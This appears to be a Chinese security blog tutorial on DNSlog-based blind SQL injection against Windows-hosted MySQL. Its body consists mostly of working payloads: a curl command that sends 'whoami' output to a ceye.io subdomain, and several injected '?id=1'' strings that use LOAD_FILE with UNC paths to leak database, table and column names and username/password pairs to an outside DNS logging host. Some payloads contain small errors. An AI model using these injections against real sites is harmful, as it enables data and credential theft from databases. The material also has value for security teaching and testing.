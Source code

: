 ```yaml
---
layout: post
title: 1.3.3-SQL注入-SQL盲注-Dnslog盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 2964387005
date: 2018-06-23 00:00:00
---
```


> 需要目标机器时windows系统

## DnsLog盲注

### DnsLog盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/01.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/06.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/04.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/07.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/11.jpeg)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/15.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/17.jpeg)




![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/18.jpeg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj